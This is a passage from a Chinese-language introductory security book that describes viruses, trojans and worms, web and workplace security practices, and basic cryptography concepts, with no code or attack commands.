如果你仔细观察，病毒使用两种方法来传输其版本。这可能是通过一种方法或通过单一有效载荷。然而，就像总是要求更多的奥利弗·特威斯特一样，多部位病毒想要一切。这种特定病毒通过多种方式传播，并感染文件和操作系统。此外，多部位病毒可以同时影响可执行文件和引导扇区文件，这使它们能够快速传播。这种“双刃”剑式攻击使得任何人清除病毒都变得困难。即使你决定清除程序文件，病毒仍然存在


引导扇区。从引导扇区开始，只要你打开计算机，它就会立即自我复制。

## 特洛伊木马与蠕虫

你听说过特洛伊木马吗？你认为它们是什么？嗯，特洛伊木马是一种计算机程序，它允许特洛伊木马攻击远程控制用户的设备。特洛伊木马伪装成对用户有用的程序，一旦安装，它就会创建后门，安装恶意有效载荷，泄露用户信息，安装不需要的程序等。

以下是攻击者可以通过特洛伊木马执行的一些活动。

- 通过导致蓝屏死机、系统崩溃等来损坏用户的计算机。
- 在执行分布式拒绝服务（DoS）攻击过程中，将个人计算机用作僵尸网络（Botnet）。
- 修改用户系统的文件。
- 窃取敏感信息，包括信用卡、存储的密码等。
- 查看用户的屏幕截图。
- 记录用户在键盘上按下的所有按键，并将信息发送给攻击者。通过这种方式，攻击者可以获取用户密码、信用卡信息和其他敏感信息。
- 通过非法资金转移实施电子货币盗窃。
- 下载用户的浏览数据。

另一方面，蠕虫是一种恶意计算机程序，它通过计算机网络进行自我复制。网络罪犯或黑客可能会利用蠕虫执行以下活动：

- 在用户的计算机上安装后门；该后门可用于创建僵尸计算机，进而执行 DoS 攻击、发送垃圾邮件等。此外，其他恶意软件也可以利用此后门。
- 安装破坏性有效载荷代码，其中在代码内携带蠕虫。
- 通过占用网络带宽来减慢用户的计算机网络速度（在复制过程中）。



## 互联网与病毒

以前，病毒通过软盘等物理介质从一个计算机系统缓慢传播到另一个系统。然而，随着技术的进步，发生了许多变化。如今，我们不再使用软盘在计算机系统之间传输信息。人们可能认为病毒的传播应该就此结束。然而，这种想法是不切实际的，因为如今互联网充当了病毒传播的媒介。

我称之为“传统病毒”，对我来说，这是我们在互联网上可以看到的危险。由于传统的传播途径已得到缓解，传统病毒正在操纵新的传播方式以扩大其影响。传统病毒可以通过两种方式进行传播：

- **良性病毒分发** – 如今，互联网使得无论个人身处何地，分享软件都变得更加容易。然而，在线找到的程序可能会感染病毒。寄生文件病毒在允许文件共享的环境中运行完美。宏病毒在互联网上很常见；此外，它们不仅附着在代码上，还附着在数据上，这使得下载该软件的任何人更难避免感染。
- **恶意病毒分发** – 在互联网上传播病毒的另一种方式是通过分发这些病毒（通过受感染程序）的个人。黑客、网络罪犯或病毒制作者将互联网作为释放其破坏行为的完美场所。

## 如何防止计算机病毒

到目前为止，在本章中，我们已经了解了病毒可以对我们的计算机系统造成什么影响。网上有各种各样的反病毒软件可供使用，你可以用它们来解决你的病毒问题。然而，我想向你展示防止计算机病毒和保护你在线隐私的重要方法。

重要的是，计算机病毒和恶意软件不是同一回事。虽然计算机病毒是一种自我复制并影响文件和程序的程序，但恶意软件旨在拒绝或干扰计算机系统的运行。此外，恶意软件会获取你的系统资源以收集相关信息。大多数反病毒软件不具备检测和应对恶意软件的功能。为了避免任何形式的攻击，遵守这些预防方法来应对计算机病毒非常重要。

### 经常更新你的计算机

对你计算机程序执行自动更新很重要，因为这些更新包含安全补丁，用于处理你计算机中可能存在的安全漏洞。我理解更新程序可能会很痛苦，因为它们尤其会在你正在处理重要程序时弹出。无论它们多么不方便，更新它们都是至关重要的。在病毒给你带来麻烦之前，最好先将其归位。

### 避免使用 Internet Explorer

如今，用户有多种浏览器可供选择。你可以选择 Firefox、Chrome、Opera 或 Brave，而不是使用 Internet Explorer。

### 经常执行备份

你不需要别人告诉你备份计算机有多重要。如果你实施了高质量的备份策略，病毒就难以给你造成太多麻烦。有时，病毒会影响你的操作系统，如果你不备份，最终会丢失所有数据。一旦病毒影响了你的操作系统，最好的建议是重新安装操作系统。因此，养成备份计算机的习惯。

### 安装高级反病毒软件

如果你想要保护你的数据并提高你的在线隐私，你应该避免使用免费的反病毒软件。努力购买一个高级反病毒程序，并定期更新其病毒程序和定义。你可以为个人电脑选择的一些有效反病毒软件包括 Avira、Kaspersky、Bitdefender、Avast Pro、Symantec Norton、McAfee 和 Webroot Security Anywhere 反病毒软件。

### 扫描电子邮件或图片附件

如果你习惯下载附件，请尽可能限制此类下载。黑客可以通过你的电子邮件黑入你的账户；一旦他们做到这一点，他们就可以使用你地址簿中的联系人进行各种恶意活动。

### 避免任何可疑网站

如今，我们有超过一万亿个可用的网站；访问其中一些网站时保持谨慎至关重要，因为你无法判断图片是否包含恶意内容。此外，访问网站前先核实网站。例如，Microsoft.com 不同于 Microsoft.tisur.com。

在使用计算机网络时避免麻烦应该是你的首要任务。你下载这本书来提升自己，已经迈出了正确的一步。然而，你必须知道，每天都有新的病毒发布。虽然可能很难获得完美的病毒防护，但遵循这里的几个步骤可以在保护你的数据和在线隐私方面发挥巨大作用。

## 结论

计算机病毒的后遗症会给你的计算机系统留下遗憾和损害。除此之外，如果它没有夺走你整个系统，恢复正常状态将花费数千美元。现存在各种各样的病毒，它们以不同的方式影响你的计算机系统。

然而，每个人在确保其设备无病毒方面都扮演着角色。为了保护你的计算机，你应该安装反病毒程序，该程序可存储恶意软件和病毒程序。此外，努力经常扫描你的计算机，同时避免使用外部硬盘，因为情况可能如此。解决计算机病毒的成本高昂。这尚未包括你需要投入的修复时间，也不包括对数据的损害。因此，关注最新的安全技巧，并留意任何病毒迹象，以领先于任何迫在眉睫的攻击。

## 第 6 章：Web 安全与职场安全准则

### Web 安全

不幸的是，网站容易受到安全风险的影响。如果你是网站所有者，你就处于风险之中。这句话不是要吓死你，而是要让你了解我们面临的当前现实。最近的统计数据显示，仅在一天内，就有超过 50,000 个网站被入侵。在这个阶段，你不能说“这不会发生在我身上”，因为它迟早会降临到你头上。大多数小型网站所有者认为这些黑客有更大的目标要对付，没有理由黑掉他们的网站。不幸的是，43% 的中小企业是网络犯罪的受害者。

在全球范围内，约 54% 的企业经历过某种网络攻击，只有 38% 能够随时应对这些攻击。虽然我没有能预见未来的水晶球；但是，未来几年网络犯罪的威胁将持续增加。尽管如此，你必须采取必要的步骤来增强你的网站安全性。

### Web 安全威胁

网站被黑的方式有很多种。我们有针对你 Web 安全的常见威胁，每个注重安全的个人都必须采取必要步骤来避免这些威胁。为了帮助你，我整理了通过避免这些威胁可以采取的可能安全措施。

- **垃圾邮件**

通常，人们认为垃圾邮件是一件令人烦恼的事情，因为它们被发送到我们的邮箱。有时，当我们访问电子邮件时，会在垃圾邮件箱中看到它们。尽管如此，其中一些


垃圾信息是恶意的，并且由黑客故意发送。另一种常见的垃圾信息形式是大多数网站上的评论。黑客设计了机器人，可以轰炸包含链接的网站评论区。这些链接将用户引导至另一个网站，从而创建建立反向链接的方式。

## 恶意软件和病毒

恶意软件是一种恶意软件，也是对网站的最大威胁。令人惊讶的是，这些网络罪犯每天创建超过 230,000 个恶意软件。来自 Statista 的以下统计数据指出了网络罪犯在全世界使用的流行恶意软件类型。

| 恶意软件类型 | 遭遇数量 (%) |
| :--- | :--- |
| 内存窃取者/内存转储器 | 16 |
| 下载器 | 14 |
| 远程管理工具 | 9 |
| 注入器 | 9 |
| 按键记录器 | 8 |
| 机器人 | 7 |
| 远程管理 | 6 |
| 安装程序 | 5 |
| 密码实用工具 | 5 |
| 反分析 | 5 |
| 勒索软件 | 4 |
| 权限提升 | 4 |
| 反向 Shell | 4 |

从表中可以看出，恶意软件有不同的大小和形状，这使得它对您的 Web 安全构成更大的威胁。这些病毒通常会访问您的服务器资源或私有数据。罪犯使用勒索软件、恶意软件和病毒，通过入侵您的网站并利用联盟链接和广告来获利。如果您受到恶意软件的攻击，您的访客连同您的网站都面临风险。保护您的用户并防止他们从您的网站下载任何恶意文件是您的责任。

## WHOIS 域名注册

很少有人知道，购买域名名并不与你想买房的方式不同。在公司将房子卖给你之前，他们必须知道谁想买以及一种可能的联系你的方式。这些信息成为公开记录，并在需要时可用。

购买域名名的方式相同。然而，这取决于你居住的特定国家，因为需要记录在 WHOIS 数据中的某些信息需要你提供。除了你的个人详细信息外，他们可能还需要你的 URL 名称服务器。网络罪犯可以利用这些信息来确定你的服务器位置。凭借这些信息，他们就可以访问你的 Web 服务器。

## 拒绝服务攻击

这些攻击旨在拒绝用户访问特定网站。通常，这些罪犯使用伪装的 IP 地址用流量加载服务器。通过这种方式，网站变得离线。一旦实现这一点，主机必须找到可能的方式以确保服务器正常运行。在此过程中，主机将服务器暴露于恶意软件、勒索软件或病毒的潜在攻击之下。

## Web 安全防御策略

有实现完美 Web 安全的两种手段。第一种涉及你分配所有资源以维持对最新安全问题的持续警惕。这需要所有更新和补丁进行一次处理，并且对所有现有应用程序进行适当审查。

获取完美 Web 安全的第二种方式是使用 Web 扫描解决方案来检查你当前的应用程序、设备和网站代码。这将帮助你查看系统中是否存在任何已知漏洞。在这种情况下，IPS/IDS、防病毒软件和防火墙是有用的。然而，你将拥有的最高效的安全投资是网站漏洞和网络扫描。

在必须选择这两种策略之一的情况下，Web 扫描将提供比后者选项更高级别的网站安全性。

## 保持网站安全的步骤

既然我们已经让你熟悉了你可能面临的潜在 Web 安全威胁，提供预防这些攻击的方式至关重要。你必须处理这样一种假设：如果没有采取任何措施来提高安全性，那么网站是不安全的。为了提高你的 Web 安全性，有必要采取一些措施来帮助你。如果你想保护你的网站，那么你应该实施这些步骤。

### 使用 HTTPS 协议

如果你的网站没有运行在这个协议上，那么你需要改变这种情况。该协议告诉你的访客，当他们与你的网站互动时他们是安全的。此外，他们知道他们的信息是安全的，没有人可以中断或更改内容。

如果你的网站没有 HTTPS 协议，它容易受到黑客的攻击，黑客可以更改你页面的信息以收集敏感信息。例如，他们可以窃取你的登录信息以及你用户的登录信息。拥有 HTTPS 协议的好处不仅在于保护你的站点安全，还有助于提高你的搜索排名。有趣的是，谷歌会对使用此协议的人给予奖励。这就像给你的孩子每一个好的行为都奖励一颗糖果一样。

此外，人们乐于访问具有 HTTPS 协议的站点，因为该站点值得信赖且安全。如果你想超级保护你的网站，你可以将 HTTPS 协议与安全套接字层 (SSL) 证书相结合。如果你运行电子商务网站，则必须使用 SSL，因为用户将提交敏感信息，如姓名、地址和信用卡号码。

虽然使用 SSL 证书是一种很好的预防措施，但它并不能防止你受到任何可能的攻击。相反，它加密了浏览器和服务器之间的通信。即使你没有使用电子商务网站，也建议将 HTTPS 协议和 SSL 证书结合起来。

### 更新你的软件和应用

如果你在你的站点上使用应用程序或软件，你应该确保经常更新它。如果你使用 WordPress，你需要更新插件、主题以及任何需要更新的内容。

进行这些更新的原因是修复任何故障或错误，以及任何升级或改进。没有软件或应用是完美的。网络罪犯正在寻找攻击不受保护网站的手段。你不应该让你的站点变得脆弱，因为大多数网络攻击都是自动化的。这些网络罪犯使用机器人扫描没有防御的站点。因此，将你的软件更新到最新版本，以避免任何潜在的攻击。

### 选择安全的 Web 托管方案

如果你的托管提供商认真对待其服务器安全，你将享受一定程度的保护。然而，在大多数情况下，这种情况并不发生。考虑到价格，如果你决定购买共享托管方案，这具有吸引力。然而，这可能不是最好的网站安全选择，因为你与其他网站所有者共享服务器。

此选项的危险在于，如果特定网站受到病毒、恶意软件或勒索软件攻击，你的网站并不例外。借此，这些黑客可以通过共享服务器访问你的网站。别误会，我并不是说使用共享托管方案是错误的，但如果你想提高你的网站安全性，这不是需要考虑的完美选项。

### 更改你的密码

考虑到过去五年内不断增多的安全威胁，这项预防措施再怎么强调也不为过。更改密码是不够的，还需要使用包含“*&$@!”等不同特殊字符的组合。大多数人做的是在每个他们访问的网站上使用相同的密码。他们使用相同的密码超过十年而从未更改一次。

这很好，但这里有危险。让我们假设你是一个爱吃辣食的贪吃者。你有一个专门的网站，你可以在上面订餐，通常需要提供评论。你需要电子邮件地址和密码来发布你的评论。如果由于某种原因该网站被黑客入侵或受损，你会有什么后果？假设你访问每个网站（包括你自己的站点）都使用相同的登录详细信息，并且黑客发现了这一点。你认为会发生什么？凭借你的电子邮件地址和密码，他们可以访问你的管理设置，故事就此结束。

### 接下来怎么办？

你的 Web 安全不应被轻视。如果你没有考虑过保护你的网站，那么你在阅读此内容时就处于风险之中。任何网站保持 100% 安全和完好几乎是不可能的，因为黑客没有睡觉。他们不断寻找窃取信息和攻击网站的新方法。然而，通过遵守上述安全措施，你可以改变这种局面。当这些罪犯难以访问你的网站时，他们不会等待。他们会寻找新的目标，因为你已经做好了充分的准备。

## 工作场所安全指南

显而易见，办公室和组织安全是当今现代工作场所面临的首要关注问题。然而，对于大多数经理和企业主来说，寻找建立包容性工作场所安全政策的方法似乎是难以实现的，特别是对于不熟悉各种安全发展趋势和行业术语的个人来说。幸运的是，如果我们使用正确的工具，会有一个起点。然而，在起草工作场所政策之前，了解办公室和组织安全的各个方面是必要的。在此之后，我可以从具体细节开始，包括访问控制、物理安全和报警系统。

### 理解办公室和组织安全政策

为了创建安全的工作环境，拥有工作场所安全政策是必要的。无论你的公司规模、专业领域或业务类型如何，当存在清晰时，你的工作场所都有受益之处


## 网络安全策略

网络安全策略。该策略必须塑造组织的安全目标，包括其内部和外部威胁。此外，这些政策必须得到执行，因为它们有助于规避无数的安全挑战。有效的政策将概述基本的指令、指南和定义，这些内容在整个组织中保持一致。例如，可接受的密码使用规范、IT 人员网络安全培训、所有人员的安全意识，以及制定适当的程序以确保物理安全和数字安全。

## 数字安全

提升工作场所的网络安全是保护您的办公室和组织的第一步。这包括保护数据、数据以及工作场所的非物理方面。您可以通过购买自己的服务器来保护计算机和网络。拥有自己服务器的好处是巨大的，因为它让您有机会拥有安全的网络，并保护您的隐私和数据。此外，在最新的数字实践中，教育您的员工至关重要，包括避免钓鱼邮件的方法以及为任何在线账户创建强密码。

此外，拥有一个良好的 Wi-Fi 网络，您可以保持物理安全系统在线。这意味着您始终受到保护。如果您决定投资一套可靠的门禁控制系统，您需要一个可靠的网络，该网络将赋予您的安全设备快速通信和验证身份的能力，且不会出现问题。如果您正确设置了数字安全，您的工作场所将极少面临网络安全挑战。

## 物理安全

毫无疑问，物理安全是工作场所安全的重要组成部分。它涵盖了许多不同的部分，包括防盗措施、安全法规、防火保护等。尽管在工作场所中数字安全很重要，但物理安全是第一道防线。拥有全面的物理安全程序是必不可少的，因为它有助于减少可能影响您业务或组织的保险索赔、闭店、责任和安全费用。可靠的物理安全政策必须清楚地概述身份验证、员工访问权限、报警系统和设施要求（视情况而定）。

所有服务器、客户数据、数据存储、商业策略文件、客户合同和知识产权都容易受到物理威胁造成的损坏和盗窃。万一发生火灾或入侵者进入您的办公室、安全文件和服务器机房，您的计算机可能会受到侵犯。这意味着您的物理安全政策非常关键，因为它控制着您的设施和资产。拥有物理控制政策的优点包括减少财务损失、降低风险、保护财产和员工，以及在事故发生时的恢复能力。总而言之，物理安全是必需品，而非奢侈品。

### 访问控制

改进办公室和组织安全的另一种方法是实施访问控制系统。访问控制涉及管理访问您工作环境所需的一切。虽然听起来很简单，您可能会思考这与网络安全有何关系？嗯，如果您的网络服务器暴露在外且被攻击者发现，您将损失敏感信息。重要的是，这对您来说意味着糟糕的生意，因为您的客户不会信任您。然而，一旦您建立了良好的安全系统，您的物理安全的每个方面都可以得到管理，包括员工身份验证、访客访问权限等。访问控制程序基本上包括五个阶段，包括授权、身份验证、访问、管理和审计。必须实施这些不同阶段的流程、条件和标准。

## 第七章：密码学基本概念

在本章中，我将介绍密码学的概念。这个词不应引起任何恐惧，因为它很容易理解并为您所用。令人惊讶的是，大多数计算机安全术语都有直接的含义，理解起来并不复杂。然而，我在这章的目标是帮助您理解甚至复杂的术语，并为您的安全问题提供解决方案。

密码学是一种行为，涉及对信息进行编码以使其难以阅读。还记得我提到的玻璃屋的例子吗？每个路过的人都能看到您屋内的内容。然而，如果它是用砖块建造的，他们将很难知道您内部有什么。

在旧时代，密码学是通过手动方法执行的。虽然时代已经改变，但执行密码学的基本框架并没有发生太大变化，尽管技术在方法上有了显著的改进。重要的是，计算机能够执行这些算法，从而使过程更加安全快速。

如今我们有密码学的五个功能。这些包括：

- **身份验证** – 这涉及一方证明其身份。它确保接收方有权访问信息。密码学身份验证包括两种变体 – 消息身份验证和实体身份验证。消息身份验证识别消息的发起者，而不考虑发送该消息的任何系统或路由器。然而，实体身份验证确保信息已被接收。
- **保密性/隐私** – 确保发送的消息仅供预期的接收方阅读，无人能够读取。保密性是密码学提供的一项基本安全服务。它保护信息免受未经授权的个人访问，并可通过从使用物理技术到数学算法的各种过程获得。
- **完整性** – 向接收方保证消息内容未以某种方式从原始消息中遭到篡改或改变。未经授权的人可能会故意或意外地修改数据。然而，密码学有助于保护数据完整性，通过检测特定数据是否被未经授权的个人操纵或更改。
- **不可否认性** – 一种机制，用于确定是接收方发送了消息
- **密钥交换** – 在接收方和发送方之间共享密码密钥的过程。

在密码学中，我们通常从未加密的数据开始，我们称之为明文。然后明文被加密为密文，密文随后被解密为可用的明文。整个加密和解密过程基于实施的特定密码学方案以及使用的密钥。为了使其更容易理解，我将使用公式来说明加密和解密过程，以便您更清楚地理解它。

让我们假设 C 代表密文，P 是明文，k 是使用的密钥，而 E 和 D 分别是加密和解密方法。

```
C = E_k(P)
P = D_k(C)
```

当我指代两个通信方时，我会使用昵称 Alice 和 Bob，因为这是密码学行业中常用的术语。如果通信涉及第三和第四个人，您可能会听到像 Carol 和 Dave 这样的名字。此外，如果在通信过程中存在恶意方，我会称该方为 Mallory。间谍和受信任的第三方将分别被称为 Eve 和 Trent。如果您对术语明确，那么我们就准备好开始了。

不要忘记，密码学主要涉及创建和开发用于加密和解密消息的数学算法。另一方面，密码学（Cryptology）指的是对秘密写作的普遍研究，而密码分析（Cryptanalysis）则是检查和解密加密的科学。

## 密码学的简要演变

早期的密码学始于欧洲文艺复兴时期。不同的意大利和教皇国家有助于传播密码学技术。在此期间，研究了各种查询和攻击方法以破解秘密代码。其中一项改进是维热纳尔密码（Vigenère coding），在 15 世纪崭露头角。此外，在 19 世纪，发现了更精密的密码学方法。然而，在 20 世纪，出现了机电和机械机器的发明，提供了一种高效且先进的方法来加密信息。最后，在二战期间，密码分析和密码学变得极其数学化。

随着世界上各种进步的发生，军事单位、企业机构、政府组织和安全专业人士正在提倡和采用密码学的使用。如今，大多数组织正在使用密码学来保护他们的信息和机密免受入侵者或攻击者的侵害。

## 加密算法

对加密算法进行分类的方式有很多种；然而，在这本书中；我将根据实施加密和解密过程中使用的密钥数量对它们进行分类。让我们看看算法的三种主要类型。


- 秘密密钥密码学
- 公钥密码学
- 哈希函数

## 秘密密钥密码学

在这种密码算法方法中，我们使用单个密钥来实现加密和解密过程。在下图中，你将观察到消息的发送者在将密文发送给接收者之前，使用该密钥对明文进行了加密。反过来，接收者使用相同的密钥对消息进行解密，然后才能获知消息的内容。



在这种情况下，密钥同时服务于两个功能——加密和解密。有时，秘密密钥密码学被称为对称加密。在这种密码算法中，发送者和接收者必须知道密钥，因为那是消息的秘密所在。然而，这种特定方法的挑战在于密钥的分发方式。尽管如此，组织仍然依赖这种方法，尤其是在涉及隐私和机密性的问题中。

## 公钥密码学

在网络安全行业中，公钥密码学是我们过去 400 年里在密码学中见证的重大进展之一。斯坦福大学的马丁·赫尔曼教授和他的学生惠特菲尔德·迪菲于 1976 年首次公开描述了公钥密码学。在他们的一篇论文中，他们描述了一个双钥公钥系统，其中两方可以通过不安全的通信通道进行有效的安全通信，而无需共享秘密密钥。

公钥密码学依赖于数学函数或单向函数的存在，这些函数计算起来比较容易。然而，如果你想计算其逆函数，则会复杂得多。让我们看看下面两个例子。

- **乘法与分解** – 例如，你想计算以下两个质数 3 和 7 的乘积。执行这个简单的计算应该不会花费你太多时间。我们知道答案将是 21。假设你已知两个数的乘积为 21，并想找到该数的质因子。当你进行两个质数的乘法时，相比于找到这两个质因子，花费的时间要少得多。当你试图对 400 位以上的数字进行质数分解时，问题会变得更大。

- **指数运算与对数** – 假设你想计算 5 的 5 次方。这不会花费你太多时间，因为你只需要计算 $5^5$，其结果等于 3125。然而，如果你从数字 3125 开始，并决定找到两个整数，那将花费你很长时间。

这两个例子可能看起来微不足道；然而，它们代表了公钥密码学中使用的功能对，包括乘法和指数的简单性，分别对抗分解和对数的难度。在使用公钥密码学时，诀窍在于找到一个“陷门”。通常，公钥密码学使用两个不同的密钥——一个用于加密，另一个用于解密。大多数用户使用公钥密码学进行密钥交换、认证和不可否认性。公钥密码学的另一个名称是非对称加密。

## 哈希函数

消息摘要或哈希函数是一种不使用任何密钥的密码技术；相反，它使用通过明文计算出的固定长度哈希值。这使得明文长度或内容的恢复变得困难。该算法用于提供文件内容的数字指纹。它有助于确保病毒或入侵者没有更改文件的内容。大多数操作系统使用哈希函数来加密密码，这进一步提供了一种保证文件内容可靠性的机制。

## 密码算法的重要性

对大多数人来说，一个主要问题是：为什么我们有不同类型的密码算法？当我们可以只使用一种算法时，为什么需要三种不同的算法？原因在于，每种算法都是针对特定的密码应用进行优化的。例如，哈希函数算法非常适合保证数据完整性，因为对消息内容的任何更改都会导致接收者计算出与发送者在消息传输期间放置的哈希值不同的哈希值。考虑到两个不同的消息不会获得相同的哈希值，我们对数据完整性有很高的信心。

另一方面，秘密密钥密码学非常适合加密消息的情况，这提供了机密性和隐私。在此过程中，发送者为特定消息的加密生成一个会话密钥。发送者需要该相同的会话密钥才能有效地解密消息。

## 现代密码学

如今，密码学是通信和计算机安全的基石。它是概率、计算复杂性和数论等各种数学概念的基础。现代密码学有三个主要特征，这些特征将其与旧时代使用的方法区分开来。为了方便大家理解，我将以表格形式呈现。

| 经典密码学 | 现代密码学 |
| :--- | :--- |
| 直接处理传统字符，如数字和字母 | 操作二进制比特序列 |
| 技术基于“隐蔽性安全”。这意味着只有相关方才能知道所采用的特定编码技术。 | 现代密码学依赖于公开已知的数学算法进行信息编码。然而，秘密性仅通过秘密密钥存在。由于缺乏秘密密钥，入侵者或攻击者很难获取原始信息。此外，算法的计算难度使得入侵者无法获取原始信息。 |
| 经典密码学需要整个密码系统才能进行机密通信。 | 这需要参与私密通信的相关方拥有秘密密钥。 |

密码学研究密码系统，它进一步分为两个分支，即密码分析（Cryptanalysis）和密码学（Cryptography）。本书的重点是密码学，但理解密码分析涉及破解密文的艺术和科学是很重要的。密码学和密码分析共存，没有任何一方是独立突出的。然而，如前所述，密码学在创建具有有效提供信息安全能力的密码系统的过程中起着关键作用。它处理数字数据的安全性。有时，密码学被指代为设计利用数学算法提供基本信息安全服务的机制。

## 密码系统

这涉及实施密码技术及其相关基础设施，以提供信息安全服务。密码系统的另一个词是密码系统（cipher systems）。在本节中，我将探讨一个简单的密码系统模型，该模型为传输的信息提供机密性。下图显示了密码系统的基本模型。



上图描绘了一个发送者，其目的是以某种方式向接收者发送敏感信息，使得任何在某个通道中拦截信息的第三方都无法有效提取该信息。使用密码系统的主要目的是确保只有发送者和接收者才能解码明文。让我们来看看密码系统的元素。

## 密码系统的元素

从图中我们可以看出，密码系统有六个基本元素，其中包括：

- **明文**
  - 这是必须在传输过程中保护的数据或信息
- **加密算法**
  - 这涉及为任何加密密钥和明文生成密文的数学过程。简单来说，它是一种算法，接受明文并借助加密密钥将其转换为密文。
- **密文**
  - 密文是明文的混淆版本，通过加密算法和加密密钥生成。然而，当密文通过各种公共通道传输时，它不受保护。能够访问通信通道的人员可能会破坏数据或信息。
- **解密算法**


这涉及一个数学过程，该过程会为任何解密密钥或密文生成一个独特的明文。解密算法的作用是接收密文和解密密钥作为输入，然后将其转换为明文。

- **加密密钥**
  密钥是一个数值，发送方必须知道该数值才能访问信息。

- **解密密钥**
  密钥是一个数值，接收方必须知道该数值。

## 密码系统的类型

根据加密和解密过程，密码系统分为两种类型。这包括对称密钥加密和非对称密钥加密。这些类型的密码系统的主要区别在于加密密钥和解密密钥。然而，对于任何密码系统，加密密钥和解密密钥都是密切相关的。本质上，使用与加密密钥不相关的密钥来解密密文是非常困难的。

- **对称密钥加密**
  在这种类型的密码系统中，加密和解密过程使用相同的密钥。如果你看到“对称密码学”这个术语，它指的是对称密码系统的研究。对称密钥加密方法的示例包括 BLOWFISH、IDEA、三重 DES（Triple-DES）以及数据加密标准（DES）。



在 1970 年之前，各种密码系统使用对称密钥加密。然而，如今其相关性非常高，并被广泛使用。考虑到对称密钥加密相对于非对称密钥加密的优势，有迹象表明这种加密过程将会长期存在。其优势或特性包括：

- 密钥会不断变更，以阻止对系统的任何形式攻击。
- 使用对称密钥加密的个人必须拥有一个共同的密钥，才能实现信息的交换。
- 与非对称密钥加密相比，由于密钥使用的位数较少，加密和解密过程更快。
- 与非对称密钥加密不同，运行对称算法所需的处理功率较低。
- 它需要一种坚固的机制，以便在相关方之间交换密钥。

尽管拥有这些优势，对称密钥密码系统基本上存在两个挑战。这些包括：

- **信任问题** – 考虑到接收方和发送方都需要相同的密钥，这要求双方之间存在不可动摇的信任。例如，接收方可能会在未通知发送方的情况下将密钥泄露给未授权的用户。
- **密钥建立** – 在通信发生之前，发送方和接收方必须商定一个秘密密钥。这需要一个安全的密钥建立机制才能使该过程有效。

当你考虑到我刚才提到的这两个挑战时，显然它们是现代通信的障碍。如今，个人需要与不可信或不熟悉的各方交换信息。由于发送方和接收方之间存在限制，这就催生了非对称密钥加密方案。

### 非对称密钥加密

这是与对称密钥加密相反的概念，后者在加密和解密信息时需要使用相同的密钥。非对称密钥加密在加密过程中使用不同的密钥。尽管密钥不同，但加密和解密过程在数学上是相关的。因此，使用解密密文来检索明文是可行的。下图展示了非对称密钥加密过程的示意图。



非对称密钥加密在 20 世纪流行起来，以解决两个通信方之间预共享加密密钥的问题。

其特性包括：

- 每个用户必须拥有不同的私钥和公钥。从数学上讲，密钥是相关的，这意味着你使用其中一个进行加密，而另一个则用于将密文解密为原始明文。
- 需要将公钥放置在公共库中。
- 虽然公钥和私钥是相互关联的，但从一个推导出另一个是不可行的。这种唯一性是非对称系统建立其强大性的地方。
- 如果第一个人需要向另一个人发送信息，第一个人必须从库中获取第二个人的公钥，然后在传输之前加密信息。
- 第二个人使用自己的私钥来提取明文。
- 它使用更高的计算机处理功率来运行非对称算法。
- 由于加密过程涉及的位数较多，因此过程较慢。

## 密码系统攻击

如今，我们的日常生活和商业都是信息驱动的。这引发了对加强保护重要信息免受恶意活动（包括攻击和数据篡改）的需求。为了让你有一个清晰的概念，我将详细阐述你的信息可能遭受的各种攻击，以及避免此类攻击的重要性。这些针对你信息的攻击可以是被动攻击或主动攻击。

### 被动攻击

你之所以可能遭遇被动攻击，主要原因是攻击者未经授权访问了你的信息。例如，被动攻击的行为可能包括入侵者拦截和窃听特定的通信信道。

从本质上讲，这些攻击是被动的，因为它们不会影响信息，也不会干扰用于传输信息的通信信道。大多数时候，被动攻击被视为攻击者窃取你的信息。这类窃取与物理商品被偷窃的主要区别在于，你的数据或信息仍然在你手中。如果有人偷走了你的手机，你就自动失去了它，除非你找回它。

虽然对某些人来说，手机被偷无关紧要，但当涉及到你的信息时，你就不能轻视它。这比窃取任何实体物品或商品都更危险，因为信息的拥有者可能不知道他的信息已被泄露。



### 主动攻击

